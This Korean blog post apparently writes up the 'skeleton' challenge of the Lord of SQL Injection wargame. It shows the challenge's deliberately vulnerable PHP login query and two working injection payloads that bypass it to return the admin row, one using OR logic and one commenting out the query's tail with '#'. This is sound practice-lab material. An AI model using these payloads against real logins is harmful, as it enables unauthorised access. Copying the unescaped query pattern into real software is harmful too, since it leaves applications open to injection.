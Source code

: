 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - skeleton 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내일이 월요일이라니 실화인가.  

주말 너무 순삭되는 것 같다.  

지금 진행중인 `CTF` 문제를 풀고 싶은데 아직 내 실력으로는 무리라는걸 깨닫고 다시 `LOS`를 풀려고 돌아왔다.  

<!--more-->

이번 문제의 이름은 `skeleton` 이다.  

코드는 다음과 같다.  

```php
------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='' and 1=0
------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번 문제도 역시 소스코드가 짧다.  

딱히 큰 필터링은 없는데 이번엔 쿼리가 달라져있다.  

`pw`를 사용자로부터 받아오는데, 뒤에 `and 1=0`이 있어 무조건 마지막에 입력한 쿼리는 `false`가 된다.  

예를 들어, 내가 이 전에 문제들을 풀었던 것 처럼 `pw`에 `1' or id='admin`을 입력한다면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_skeleton where id='guest' and pw='1' or id='admin' and 1=0
```

때문에 내가 입력한 값이 `id=admin and 1=0` 를 만들게 되는 것이다.  

그럼 뒤의 `and 1=0`을 실행 못하게 하면 문제를 풀 수 있을 것 같다.  

사실 아래처럼 입력해도 문제를 풀 수 있다.  

```
?pw=1' or id='admin' or '1'='1
```

이렇게 되면 `id='admin'`를 기준으로 앞과 뒤의 쿼리가 모두 `false`고 `id='admin'`만 `true`가 되어 결과적으로 `admin`을 추출할 수 있다.  

근데 귀찮아서 문제를 풀 때는 그냥 `#`으로 주석처리 했다.  

```
?pw=1' or id='admin'%23
```

역시 문제 풀때는 간단한 방법이 최고다.  


```php
----------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='1' or id='admin'#' and 1=0
----------------------------------------------------------------------------------------------

SKELETON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

`SKELETON Clear!!`